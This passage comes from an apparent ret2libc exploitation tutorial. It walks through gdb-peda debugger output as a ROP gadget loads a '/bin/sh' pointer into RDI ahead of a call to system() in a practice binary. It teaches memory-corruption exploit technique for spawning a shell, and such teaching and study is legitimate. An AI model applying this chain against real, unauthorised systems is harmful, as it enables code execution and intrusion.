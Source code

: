```
```

Notice that RSP points to 0x4006a3 which is our ROP gadget. Step in and we'll return to our gadget where we can now execute pop rdi. 

```
gdb-peda$ si
.
.
.
[-------------------------------------code-------------------------------------]
=> 0x4006a3 <__libc_csu_init+99>:   pop    rdi
   0x4006a4 <__libc_csu_init+100>:  ret
   0x4006a5:    data32 nop WORD PTR cs:[rax+rax*1+0x0]
   0x4006b0 <__libc_csu_fini>:  repz ret
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe510 --> 0x4006ff --> 0x68732f6e69622f ('/bin/sh')
0008| 0x7fffffffe518 --> 0x7ffff7a5ac40 (<system>:  test   rdi,rdi)
0016| 0x7fffffffe520 --> 0x0
0024| 0x7fffffffe528 --> 0x7ffff7a37ec5 (<__libc_start_main+245>:   mov    edi,eax)
0032| 0x7fffffffe530 --> 0x0
0040| 0x7fffffffe538 --> 0x7fffffffe608 --> 0x7fffffffe827 ("/home/koji/ret2libc/ret2libc")
0048| 0x7fffffffe540 --> 0x100000000
0056| 0x7fffffffe548 --> 0x400610 (<main>:  push   rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00000000004006a3 in __libc_csu_init ()
```

Step in and RDI should now contain a pointer to "/bin/sh":

```
gdb-peda$ si
[----------------------------------registers-----------------------------------]
.
.
.
RDI: 0x4006ff --> 0x68732f6e69622f ('/bin/sh')
.
.
.
[-------------------------------------code-------------------------------------]
   0x40069e <__libc_csu_init+94>:   pop    r13
   0x4006a0 <__libc_csu_init+96>:   pop    r14
   0x4006a2 <__libc_csu_init+98>:   pop    r15
=> 0x4006a4 <__libc_csu_init+100>:  ret
   0x4006a5:    data32 nop WORD PTR cs:[rax+rax*1+0x0]
   0x4006b0 <__libc_csu_fini>:  repz ret
   0x4006b2:    add    BYTE PTR [rax],al
   0x4006b4 <_fini>:    sub    rsp,0x8
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe518 --> 0x7ffff7a5ac40 (<system>:  test   rdi,rdi)
0008| 0x7fffffffe520 --> 0x0
0016| 0x7fffffffe528 --> 0x7ffff7a37ec5 (<__libc_start_main+245>:   mov    edi,eax)
0024| 0x7fffffffe530 --> 0x0
0032| 0x7fffffffe538 --> 0x7fffffffe608 --> 0x7fffffffe827 ("/home/koji/ret2libc/ret2libc")
0040| 0x7fffffffe540 --> 0x100000000
0048| 0x7fffffffe548 --> 0x400610 (<main>:  push   rbp)
0056| 0x7fffffffe550 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00000000004006a4 in __libc_csu_init ()
```
